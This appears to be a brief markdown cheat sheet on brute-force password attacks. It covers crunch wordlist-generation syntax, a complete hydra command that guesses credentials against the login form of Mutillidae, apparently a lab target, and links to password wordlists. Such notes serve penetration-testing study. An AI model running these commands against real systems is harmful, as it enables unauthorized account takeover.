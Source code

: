 # Brute Force

## Crunch (Wordlist generator)
- Syntax
  - ```crunch [min]  [max] [characters] -t [pattern] -o [filename]```
- Example
  - ```crunch 6 8 123abc$ -i wordlist -t a@@@@b```
  - ```crunch 6 8 abc12 -o test.txt```

## Hydra (Brute force)
- Syntax
  - ```hydra [ip]  -l [usernames] -P [passwords] [service]```

- Example 
  - ```cmd hydra 10.20.14.212 -l admin -P /root/test.txt http-post-form "/mutillidae/index.php?page=login.php:username=^USER^&password=^PASS^&login-php-submit-button=Login:F=Not Logged In"```

## Burp is the Best tool !

## Wordlists
- ftp://ftp.openwall.com/pub/wordlists/
- https://github.com/berzerk0/Probable-Wordlists
- http://www.openwall.com/mirrors/
- http://www.outpost9.com/files/WordLists.html
- http://www.vulnerabilityassessment.co.uk/passwords.htm
- http://packetstormsecurity.org/Crackers/wordlists/
- http://www.ai.uga.edu/ftplib/natural-language/moby/
- http://wordlist.sourceforge.net/
